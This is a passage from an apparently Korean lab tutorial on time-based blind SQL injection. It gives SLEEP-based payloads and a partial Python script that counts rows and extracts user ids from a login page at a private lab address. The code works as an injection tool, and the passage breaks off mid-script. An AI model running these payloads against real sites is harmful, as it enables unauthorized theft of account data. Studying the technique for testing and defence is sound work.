 결과는 다음과 같다.

	id
    pw

## **데이터 확인**

참과 거짓의 결과 정보를 이용하여 데이터를 획득해보자.

먼저 COUNT를 이용하여 데이터의 수를 확인하자.

SELECT의 이중쿼리의 경우 출력결과가 1개로 나와야 하며 괄호를 이용하여 감싸준다.

URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

SLEEP을 이용하기 때문에 참이면 일정 시간동안 딜레이가 걸릴 것이다.

```py
QUERY       = requests.utils.quote(f'\' OR IF((SELECT COUNT(id) FROM test.user)={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

데이터 수만큼 반복하여 다음으로 데이터의 문자열 길이를 알아내자.

```py
QUERY       = requests.utils.quote(f'\' OR IF(LENGTH((SELECT id FROM test.user LIMIT {i},1))={j},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

다시 SUBSTR로 문자열을 하나씩 확인한다.

```py
QUERY   = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR((SELECT id FROM test.user LIMIT {i},1),{j+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

다음의 Full Code로 모든 id 컬럼의 데이터를 확인해보자.

```py
import requests
import string
import time

TARGET          = 'http://192.168.0.58/index.php'
SLEEP_TIME      = 0.5
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'\' OR IF((SELECT COUNT(id) FROM test.user)={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    START_TIME  = time.time()
    REQUEST     = requests.get(url=URL)
    END_TIME    = time.time()
    if END_TIME - START_TIME > SLEEP_TIME:
        RESULT_LENGTH = i
        break
print(f'Number of data : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    DATA_LENGTH    = 0
    DATA           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'\' OR IF(LENGTH((SELECT id FROM test.user LIMIT {i},1))={j},SLEEP({SLEEP_TIME}),SLEEP(0))#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        START_TIME  = time.time()
        REQUEST     = requests.get(url=URL)
        END_TIME    = time.time()
        if END_TIME - START_TIME > SLEEP_TIME: DATA_LENGTH = j
```